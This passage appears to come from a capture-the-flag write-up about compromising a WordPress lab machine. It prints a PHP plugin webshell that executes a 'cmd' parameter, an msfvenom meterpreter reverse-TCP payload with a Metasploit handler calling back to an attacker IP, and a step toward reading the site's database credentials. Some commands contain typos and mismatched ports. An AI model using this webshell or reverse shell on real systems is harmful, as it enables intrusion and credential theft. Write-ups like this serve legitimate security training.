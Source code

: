 wpadmin:x:1001:1001::/home/wpadmin:/bin/sh

Still no way to get a password.

Next I realized as an administrator I can install plugins.  So I made a simple webshell:

{% highlight php %}
<?php
/*
 * Plugin Name: backdoor
 * Plugin URI: https://www.com
 * Description: backdoor
 * Version: 1.0.0
 * Author: backdoor
 * Author URI: http://www.com
 * Text Domain: backdoor
 * Domain Path: /languages
 * */

echo system($_GET["cmd"]); 
?>
{% endhighlight %}

Once actived I was able to execute code. Now for a meterpreter payload and serve it up with SimpleHTTPServer

{% highlight bash %}
msfvenom -p php/meterpreter/reverse_tcp LPORT=111.111.111.111 LPORT=444 R > backdoor.php
pythom -m SimpleHTTPServer
{% endhighlight %}

Then I can use my plugin to get the payload onto the web server and start metasploit:

{% highlight bash %}
msfconsole
use exploit/multi/handler
set LHOST 111.111.111.111
set LPORT 4444
set payload php/meterpreter/reverse_tcp
exploit
{% endhighlight %}

Now that the meterpreter handler is running I can fire up the shell and now we have the first flag.

## PrivEsc

Now that I have shell:

{% highlight bash %}
cd ../../../../
pwd
/var/www/wordpress
{% endhighlight %}

Now that we are in the Wordpress root let's look at the config file and see what the database credentials are:
